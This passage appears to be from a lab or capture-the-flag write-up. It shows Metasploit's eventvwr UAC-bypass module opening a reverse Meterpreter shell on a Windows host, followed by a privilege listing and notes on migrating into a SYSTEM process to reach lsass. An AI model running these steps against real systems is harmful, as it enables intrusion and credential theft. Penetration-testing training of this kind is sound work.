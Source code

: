 ```bash
msf5 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.2.18.4:4444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (176195 bytes) to 10.10.88.122
[*] Meterpreter session 2 opened (10.2.18.4:4444 -> 10.10.88.122:49748) at 2020-07-20 20:31:18 -0400
[*] Cleaning up registry keys ...
```
The exploit ran successfully and we can also see the privileges by running the `getprivs`.

```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter >
```
From above results,  
- Using the `SeTakeOwnershipPrivilege`, we can take the ownership of the files.  
- We need to migrate our process to a stable and equally privileged, in order to access the `lsass` service (which is responsible for authentication).
- List the running processes using `ps` and `migrate` to printer service, who is running with `x64` architecture and with `NT AUTHORITY\SYSTEM` user.   
